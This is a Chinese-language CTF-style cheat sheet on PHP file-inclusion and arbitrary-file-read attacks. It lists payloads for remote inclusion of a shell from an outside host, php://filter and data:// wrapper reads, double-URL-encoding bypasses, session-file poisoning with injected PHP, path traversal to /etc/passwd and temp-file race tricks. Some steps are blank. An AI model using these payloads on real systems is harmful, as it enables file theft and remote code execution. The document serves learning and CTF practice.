




# PHP文件包含与任意文件读取

### 文件包含相关函数：

```php
• include()
• include_once()
• require()
• require_once()

```

### 文件包含的利用：

#### 远程文件包含：

**远程代码执行：**

?file=\[http|https|ftp]://example.com/shell.txt
(需要allow\_url\_fopen=On并且 allow\_url\_include=On)

**利用php流input：**

?file=php\://input
(需要allow\_url\_include=On)



***

#### 本地文件包含：

**可以做什么：**

-   包含同目录下的文件
-   获取web目录或者其他配置文件
-   包含上传的附件：
    ```python
    ?file=../attachment/media/xxx.file
    ```
-   读取phpinfo可以包含临时文件
-   包含/读取session文件：
    ```python
    ?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7

    ```

**如何读文件：**

1.直接包含非php文件
2.利用PHP文件流包含

例：



```php
abc=data://text/plain;base64,aGVsbG8xMjM=&file=php://filter/convert.base64-encode/resource=flag.php
1.使用data://协议加base64绕过“hello123”
2.使用php://filter/convert.base64-encode/resource=flag.php绕过
3.除了base64-encode还有一个常用的是string.rot13编码
4.https://www.php.net/manual/en/mbstring.supported-encodings.php可查看php支持的文本格式
5.?page=php://filter/convert.iconv.ASCII.UCS-2BE/resource=index.php
    如果没有过滤utf，直接使用convert.iconv.utf-8.utf-7
    convert.iconv意思为将ASCII转换为USC-2BE格式

```

如果data://被过滤了：

```php
abc=data:text/plain;base64,aGVsbG8xMjM=&file=php://filter/convert.base64-encode/resource=flag.php
```

如果是get方式可以尝试 php\://input

**可以尝试二次url编码绕过关键词**

```python
http://127.0.0.1:2335/?page=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=index.php
原理：php包含的filter，包含时会再解一次url编码（可以非预期很多题目）
```

#### session包含：

**一、直接上传包含**

1.首先查看phpinfo(),save\_path为no value则表示存储在默认的/tmp或/var/lib/php/session目    录下

2.php代码为：

```python
$ctfs=$_GET['ctfs']; 
$_SESSION["username"]=$ctfs;
```

3.当提交为：

```python
?ctfs=<?php%20phpinfo();?>

```

内容会被保存在tmp目录或者/var/lib/php/session目录下

4.直接访问：

```python
?file=/tmp/sess_(session_id)
```

**二、session进度包含**

1.需这个关闭


2.上传名为：


3\.



4\.


5.进行包含：

```python
?file=/tmp/sess_PHPSESSID
```

6.**注：** 如cleanup为on尝试条件竞争

**三、临时文件包含：**

**1.条件竞争：** 删除临时文件、包含临时文件

**2.php7.0时：**

```python
file=php://filter/string.strip_tags/resource=/etc/passwd
会造成一个segment fault，临时文件不会被删除
```

**3.自包含：** 自己包含自己 进入死循环 脚本永不结束

### 任意文件读取:

1.过滤：

```python
路径的过滤replace(‘./’, ‘’)=> ...//...//...//...//...//flag

```

2.读什么：



3.用字典简单fuzz一下
